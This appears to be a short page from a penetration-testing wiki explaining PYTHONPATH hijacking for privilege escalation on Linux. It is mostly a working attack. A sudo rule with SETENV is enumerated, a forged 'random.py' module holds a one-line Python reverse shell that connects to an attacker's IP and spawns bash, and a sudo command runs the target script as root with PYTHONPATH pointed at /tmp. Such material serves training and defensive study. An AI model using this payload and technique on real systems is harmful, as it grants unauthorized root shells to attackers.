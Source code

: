 # Python

## Theory

Python scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, python scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### PythonPath Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights and `SETENV`.

```bash
sudo -l
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/example.py
```

With `SETENV`, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.

First, we can check what module is imported in the python script (e.g. `/opt/scripts/example.py` here).

```python
import random
print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can forge the imported module

```bash
$ cat /tmp/random.py

import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Then run the python script with updating PYTHONPATH in the remote machine.

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/scripts/example.py
```

{% hint style="info" %}
By setting `PYTHONPATH=/tmp/`, the python script will import modules from `/tmp/` directories so the "random" module is imported from /tmp/random.py.
{% endhint %}
{% endtab %}
{% endtabs %}
